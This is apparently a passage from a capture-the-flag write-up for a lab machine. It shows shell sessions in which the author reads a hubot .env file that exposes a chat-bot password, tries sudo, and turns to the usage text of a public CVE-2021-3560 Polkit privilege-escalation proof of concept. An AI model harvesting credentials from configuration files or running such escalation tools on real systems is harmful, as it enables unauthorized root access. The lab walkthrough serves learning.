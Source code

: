 ```
Password: 
```

It asks for password and i don't know any password

I searched around the hubot and got a cred

```
[dwight@paper ~]$ cd hubot/                                                                                                                                                                                        
[dwight@paper hubot]$ ls                                                                                                                                                                                           
'\'               external-scripts.json   package.json        README.md                                                                                                                                            
 127.0.0.1:8000   LICENSE                 package.json.bak    scripts                                                                                                                                              
 127.0.0.1:8080   node_modules            package-lock.json   start_bot.sh                                                                                                                                         
 bin              node_modules_bak        Procfile            yarn.lock                                                                                                                                            
[dwight@paper hubot]$ cat .env 
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
[dwight@paper hubot]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility. 

[sudo] password for dwight: 
Sorry, user dwight may not run sudo on paper.
```

I tried switching to the user with dwight pass but lool i was wrong

My bad i didn't read the usage lool

```
CVE-2021-3560 Polkit v0.105-26 Linux Privilege Escalation PoC by SecNigma

Original research by Kevin Backhouse
https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/#vulnerability

USAGE:
./poc.sh
Optional Arguments:
        -h --help
        -u=Enter custom username to insert (OPTIONAL)
        -p=Enter custom password to insert (OPTIONAL)
        -f=y, To skip vulnerability check and force exploitation. (OPTIONAL)
        -t=Enter custom sleep time, instead of automatic detection (OPTIONAL)
```